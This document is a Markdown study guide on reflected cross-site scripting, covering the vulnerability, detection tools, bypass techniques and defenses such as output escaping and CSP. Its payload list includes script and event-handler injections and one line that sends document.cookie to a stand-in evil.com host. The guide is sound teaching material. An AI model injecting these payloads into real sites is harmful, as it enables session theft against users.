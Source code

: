 # 🚨 Reflected XSS (Cross-Site Scripting) — Complete Notes

## 🧠 What is Reflected XSS?

Reflected XSS is a type of vulnerability where **malicious JavaScript is reflected from the server into the user's browser** and executed immediately.

- ❌ Not stored on the server (non-persistent)  
- 💥 Triggered by clicking a malicious link  
- 📍 Common in search results, error pages, or form outputs

---

## 🧪 Example Attack

**URL:**

```
https://example.com/search?q=<script>alert('XSS')</script>
```

**Rendered HTML:**

```html
<p>Search results for <script>alert('XSS')</script></p>
```

💥 Result: JavaScript is executed on page load.

---

## 🎯 How Attackers Exploit Reflected XSS

### Common Vectors

- URL parameters: `?q=`, `?search=`
- Form inputs
- HTTP headers like `Referer`, `User-Agent`

### Payload Examples

```html
<script>alert('XSS')</script>
<img src=x onerror="alert('XSS')">
"><svg/onload=alert(1)>
<script>fetch('http://evil.com?cookie=' + document.cookie)</script>
```

### Attacker Goals

- 🥷 Steal session cookies  
- 🎯 Log keystrokes  
- 🔀 Redirect users  
- 🧪 Inject fake forms (phishing)  
- 🕵️‍♂️ Perform actions as the user (session hijacking)

---

## 🔍 How to Detect Reflected XSS

### Manual Testing

Input a test payload:

```html
<script>alert(1)</script>
```

Check if it gets reflected and executed in the browser.

### Tools for Detection

- Burp Suite  
- OWASP ZAP  
- XSS Hunter  
- Dalfox  
- XSStrike  

### Helpful Browser Extensions

- XSS Radar  
- HackBar  

---

## 🔒 How to Prevent Reflected XSS

### ✅ Escape Output (Context-Aware)

- HTML: `&lt;`, `&gt;`, `&quot;`, `&#x27;`  
- JavaScript: properly escape strings  
- URL: use `encodeURIComponent()`

### ✅ Avoid Raw HTML Injection

Never use `innerHTML`, `document.write()`, or template literals with unescaped user input.

### ✅ Use a Content Security Policy (CSP)

```http
Content-Security-Policy: default-src 'self'; script-src 'self';
```

### ✅ Sanitize Input

Use libraries like:

- DOMPurify (client-side)  
- OWASP Java Encoder (server-side)  
- Microsoft AntiXSS  

### ✅ Validate Input

- Whitelist acceptable characters  
- Reject or sanitize unexpected input  

### ✅ Use HTTPOnly Cookies

Prevent JavaScript access to session tokens.

---

## 🔧 How Frontend Frameworks Help (But Be Careful)

Modern frameworks like React, Angular, and Vue auto-escape by default.

- ✅ Safe: `{userInput}` in React  
- ⚠️ Dangerous: `dangerouslySetInnerHTML`, `v-html`, `innerHTML`  

Always sanitize external content before injecting into the DOM.

---

## 📊 XSS Types Comparison

| Type        | Persistent? | Triggered By         | Stored on Server? |
|-------------|-------------|----------------------|-------------------|
| Reflected   | No          | Clicking a link      | No                |
| Stored      | Yes         | Viewing the page     | Yes               |
| DOM-Based   | No          | JavaScript in browser| No                |

---

## 🧠 Advanced Bypasses and Obfuscation

Attackers may use:

- Encoded payloads: `%3Cscript%3E`  
- Event handlers: `onmouseover`, `onerror`, etc.  
- Alternative tags: `<svg>`, `<iframe>`, `<object>`  
- HTTP parameter pollution  
- Template injection in server-side rendering  

---

## ✅ Defense Checklist

- [x] Escape output based on context (HTML, JS, URL)  
- [x] Sanitize inputs with trusted libraries  
- [x] Use a strong Content Security Policy  
- [x] Apply HTTPOnly and Secure flags on cookies  
- [x] Avoid `eval()`, `innerHTML`, `document.write()`  
- [x] Don’t reflect user input unless absolutely necessary  
- [x] Test regularly with security tools  

---

## 💡 Quick Test Payload

```html
"><script>alert('XSS')</script>
```

Use this on forms, query parameters, and input fields to test for vulnerability.

---

## 🧰 Tools & Resources

### Testing Tools

- Burp Suite  
- OWASP ZAP  
- Dalfox  
- XSStrike  

### Sanitization Libraries

- DOMPurify  
- JS-XSS  
- Google Caja *(deprecated but informative)*

### CSP Evaluator

- https://csp-evaluator.withgoogle.com
